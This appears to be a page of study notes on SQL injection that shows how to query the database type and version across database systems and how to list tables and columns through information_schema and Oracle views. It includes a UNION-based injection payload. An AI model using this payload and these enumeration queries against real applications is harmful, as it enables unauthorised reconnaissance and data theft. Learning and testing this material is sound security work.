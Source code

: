 # Examining the database

### Querying the database type and version

The queries to determine the database version for some popular database types are as follows:

```sql
Database type	Query
Microsoft,MySQL	SELECT @@version
Oracle		SELECT * FROM v$version
PostgreSQL	SELECT version()
```

For example, you could use a UNION attack with the following input: `' UNION SELECT @@version--`



### Listing the contents of the database

Most database types (**with the notable exception of Oracle**) have a set of views called the information schema which provide information about the database.

You can query information\_schema.tables to list the tables in the database:

```sql
SELECT * FROM information_schema.tables
```

You can then query information\_schema.columns to list the columns in individual tables:

```sql
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```

#### Equivalent to information schema on Oracle

On Oracle, you can obtain the same information with slightly different queries.

You can list tables by querying all\_tables:

```sql
SELECT * FROM all_tables
```

And you can list columns by querying all\_tab\_columns:

```sql
SELECT * FROM all_tab_columns WHERE table_name = 'USERS'
```

